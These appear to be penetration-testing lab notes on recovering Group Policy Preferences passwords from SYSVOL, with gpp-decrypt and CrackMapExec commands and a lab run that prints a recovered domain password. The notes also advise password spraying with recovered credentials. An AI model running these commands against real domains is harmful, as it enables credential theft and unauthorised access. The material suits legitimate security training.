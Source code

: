 ### Group Policy Preferences (GPP) Passwords
###### When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to Map drives (drives.xml), Create local users, Create printer config files (printers.xml), Creating and updating services (services.xml), Creating scheduled tasks (scheduledtasks.xml), Changing local admin passwords.
###### These files can contain an array of configuration data and defined passwords. The cpassword attribute value is AES-256 bit encrypted, but Microsoft published the AES private key on MSDN, which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.
###### This was patched in 2014 MS14-025 Vulnerability in GPP could allow elevation of privilege, to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.
###### If you retrieve the cpassword value more manually, the gpp-decrypt utility can be used to decrypt the password as follows:
### Decrypting the Password with gpp-decrypt

```bash
Yashfren@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

Password1
```
###### GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as Get-GPPPassword.ps1, the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value. CrackMapExec also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password (especially if it is unique). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.

### Locating & Retrieving GPP Passwords with CrackMapExec

```bash
Yashfren@htb[/htb]$ crackmapexec smb -L | grep gpp

[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
```

###### It is also possible to find passwords in files such as Registry.xml when autologon is configured via Group Policy. This may be set up for any number of reasons for a machine to automatically log in at boot. If this is set via Group Policy and not locally on the host, then anyone on the domain can retrieve credentials stored in the Registry.xml file created for this purpose. This is a separate issue from GPP passwords as Microsoft has not taken any action to block storing these credentials on the SYSVOL in cleartext and, hence, are readable by any authenticated user in the domain. We can hunt for this using CrackMapExec with the gpp_autologin module, or using the Get-GPPAutologon.ps1 script included in PowerSploit.
### Using CrackMapExec's gpp_autologin Module

```
Yashfren@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found SYSVOL share
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Searching for Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Found INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found credentials in INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```
